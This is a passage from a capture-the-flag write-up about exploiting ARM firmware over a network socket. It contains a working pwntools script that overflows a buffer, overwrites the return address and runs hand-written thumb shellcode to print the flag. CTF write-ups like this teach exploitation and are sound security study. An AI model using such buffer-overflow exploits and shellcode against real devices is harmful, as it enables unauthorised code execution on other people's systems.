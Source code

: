 ### But does it run DOOM
Now that we can run and debug the firmware and our shellcode, all that's left is to actually write some shellcode and execute whatever we want. A few things we should keep in mind while doing this:

- We have some payload before the actual shellcode to avoid problems with the argument parsing
- All addresses we jump to should be thumb addresses
- We first should get back a handle on the socket, so that we can actually obtain output

To take care of that last point, we chose to extract the socket from the address on the stack where `execute_command` had temporarily stored it earlier. Even though it's not technically on an "active" part of the stack anymore, we know it can't have been overwritten yet anyway. Then we just prepare what the stack would look like at the moment `execute_command` would be printing the flag, set the return address to where `handle_client` would have returned, and just skip validating all that debug mode trouble.

```python
# Skipping some `pwn template` stuff here
BUFFER_ADDR = 0x20001cd0
shellcode = asm("""
        sub sp, sp, 0x33c
        pop {r4}
        add sp, sp, 0x338
        mov r5, sp

        eor r9, r9, r9
        orr r9, r9, 0x0800
        lsl r9, r9, 8
        orr r9, r9, 0x04
        lsl r9, r9, 8
        orr r9, r9, 0x0b

        eor lr, lr, lr
        orr lr, lr, 0x0800
        lsl lr, lr, 8
        orr lr, lr, 0x7
        lsl lr, lr, 8
        orr lr, lr, 0x25

        push {r0, r1, r2, r4, r5, r6, r7, lr}
        bx r9
""")

io = start()
io.recvuntil("seconds...")
initial = b'help a a a a a a a a a  '
SC_ADDR = BUFFER_ADDR + len(initial)
io.send(initial + shellcode + b' ' * (0x304 - len(initial) - len(shellcode)) + pack(SC_ADDR | 1))
io.stream()
```

One final minor annoyance here was that for some reason sending newlines or leaving our sending socket open seemed to make the remote hardware hang. So we simply don't send a newline, and implicitly close the sending half of the socket by using `io.stream()`. Our way of loading 32-bit constants into the shellcode is not the prettiest yet, but it was good enough at the time. During later iterations, this was improved somewhat.
